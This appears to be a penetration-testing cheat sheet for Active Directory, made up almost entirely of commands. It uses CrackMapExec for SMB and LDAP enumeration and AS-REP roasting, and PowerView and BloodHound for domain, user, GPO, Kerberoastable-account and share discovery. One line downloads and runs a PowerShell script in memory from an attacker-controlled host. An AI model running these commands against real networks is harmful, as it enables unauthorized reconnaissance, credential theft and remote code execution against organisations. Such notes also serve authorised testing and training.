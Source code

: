 # Crackmapexec (CME)
# Basic enumeration without credentials
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --users

# With credentials
crackmapexec smb <IP> -u "<username>" -p "<password>" --shares
crackmapexec smb <IP> -u "<username>" -p "<password>" --groups
crackmapexec ldap <IP> -u "<username>" -p "<password>" --kdc-host <DC_IP> --asreproast

# PowerShell
# PowerView enumeration (Import PowerView.ps1 first)
# Load the script in memory
iex(new-object net.webclient).downloadstring('http://<attacker-ip>/PowerView.ps1')

# Get domain info
Get-NetDomain
Get-NetForest
Get-NetUser | Select Name, SamAccountName
Get-NetComputer | Select Name

# Find group policy objects (GPO)
Get-NetGPO | Select DisplayName

# Kerberoastable users
Get-DomainUser -SPN

# Find writable shares
Find-DomainShare -Verbose

# Group membership enumeration
Get-DomainGroupMember -Identity "<group-name>" | Select MemberName

# BloodHound data collection
Invoke-BloodHound -CollectionMethod All -Verbose
